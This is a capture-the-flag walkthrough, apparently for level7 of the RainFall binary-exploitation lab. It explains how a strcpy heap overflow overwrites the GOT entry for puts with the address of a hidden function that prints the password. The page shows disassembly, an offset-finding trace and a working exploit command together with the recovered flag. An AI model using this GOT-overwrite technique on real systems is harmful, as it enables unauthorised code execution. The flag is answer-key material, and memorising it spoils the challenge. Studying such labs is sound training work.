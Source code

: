 # Walkthrough

## Solution

```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
 ```

## Explanation

### Execution

```
level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello hello
~~
```  
-> The program takes 2 arguments and prints "~~"

### Disassembly

```
info var:
0x08049960  c

info function
0x080484f4  m
0x08048521  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

### Steps

The main stores the .pass file in the c variable, but doesn't print it.  
-> We need to call the m function that is not called, but that prints the c variable.  

Let's try to call the m function instead of the puts function.  

Address of m: 0x080484f4  
Address of puts in the GOT, as the address in the PLT is read-only: 0x08049928  
```
level7@RainFall:~$ objdump -R ./level7
./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049928 R_386_JUMP_SLOT   puts
```

-> we need to replace the address of puts by the address of m.
`
man strcy:
 If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.
`

-> We can overflow with strcpy.

- Find the overflow offset:
```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
__libc_start_main(0x8048521, 2, 0xbffff794, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...> --> 20 in the Buffer Overflow pattern generator
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```  
--> offset is at 20  

- Build the command
`
./level7 arg1 arg2
arg1 = x padding to overflow into 3rd malloc, and replace ptr2[1] with address of puts
arg2 = address of m
`
-> so that we have strcpy(dest: &puts, src: &m), so when we call puts("~~"), we will call m in reality.

- Final Command
```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
```